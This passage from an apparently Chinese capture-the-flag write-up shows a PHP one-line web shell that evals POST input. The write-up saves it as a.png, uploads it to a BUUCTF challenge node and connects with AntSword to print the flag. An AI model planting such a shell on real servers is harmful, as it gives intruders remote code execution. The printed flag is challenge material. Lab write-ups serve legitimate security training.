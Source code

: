## 上传一句话木马

```php
<?php eval($_POST['a']);?>
```

将其保存为 `a.png` 文件

之后上传

```
http://3a79e9c3-e27e-40c9-b6e0-af40d2028543.node4.buuoj.cn:81/upload/c7e27b0181f9d00be86497d5427d8574/a.png
```

上传成功后使用蚁剑连接一下获取 flag{677ad6d8-e669-4b94-ad9f-8db2453e338b}


# 009_[护网杯 2018]easy_tornado





